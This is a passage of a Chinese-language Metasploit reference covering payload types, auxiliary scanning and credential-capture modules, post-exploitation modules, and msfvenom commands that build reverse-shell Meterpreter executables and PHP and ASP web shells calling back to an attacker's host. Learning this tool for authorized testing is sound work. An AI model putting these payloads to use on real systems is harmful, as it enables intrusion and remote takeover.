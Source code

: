 #### Payloads 模块
*   **命名规则**: `平台/类型/名称` (e.g., `windows/meterpreter/reverse_tcp`).
*   **类型**:
    *   **Inline**: 单一的、完整的 Payload，体积较大，但可能更稳定.
    *   **Staged**: 先发送一个小型的 Stager，连接成功后再下载并执行最终的 Stage (Payload)。更隐蔽，但需要网络连接。.
        *   `reverse_*`: 目标主动连接攻击者.
        *   `bind_*`: 攻击者主动连接目标（目标监听端口）.
    *   **Meterpreter**: 高级、多功能的内存驻留 Payload，提供强大的后渗透能力.
    *   **Shell**: 提供标准的命令行 Shell.
    *   **VNCInject**: 注入 VNC 服务，提供图形界面访问.
    *   *其他类型*: 如 `patchup`, `upexec`, `dllinject`, `passive` 等.

#### Auxiliary 模块
*   **作用**: 执行扫描、嗅探、拒绝服务 (DoS)、服务发现、版本探测等非直接利用漏洞的操作.
*   **常用示例**:
    *   `auxiliary/scanner/portscan/tcp`: TCP 端口扫描.
    *   `auxiliary/scanner/discovery/udp_sweep`: 快速识别 UDP 服务.
    *   `auxiliary/scanner/smb/smb_version`: 扫描 SMB 版本.
    *   `auxiliary/server/capture/ftp`: 搭建假的 FTP 服务器捕获凭证.
    *   `auxiliary/admin/smb/ms17_010_command`: 通过 MS17-010 执行命令（若已有 DoublePulsar 后门）.

#### Post 模块
*   **作用**: 在获得目标系统访问权限（如 Meterpreter 或 Shell 会话）后执行.
*   **功能**: 信息收集、权限提升、持久化、内网漫游等.
*   **使用**: 在会话 (Session) 中使用 `run <post_module_name>` 或 `run post/windows/gather/checkvm`.

### 5. MSFvenom - Payload 生成与编码

*   **用途**: 独立于 `msfconsole` 的 Payload 生成器和编码器.
*   **常用命令**:
    *   `msfvenom -l payloads`: 列出所有可用的 Payload.
    *   `msfvenom -l formats`: 列出所有支持的输出格式.
    *   `msfvenom -l encoders`: 列出所有可用的编码器.
    *   **生成 Payload**:
        ```bash
        # Windows Reverse TCP Meterpreter EXE
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<你的端口> -f exe -o rev_shell.exe

        # Linux Reverse TCP Meterpreter ELF
        msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<你的端口> -f elf -o rev_shell.elf

        # PHP Reverse TCP Meterpreter Raw (for web shells)
        msfvenom -p php/meterpreter_reverse_tcp LHOST=<你的IP> LPORT=<你的端口> -f raw -o rev_shell.php
        # 注意: 可能需要手动调整生成的 PHP 代码以适应目标环境

        # ASP Reverse TCP Meterpreter
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<你的端口> -f asp -o rev_shell.asp
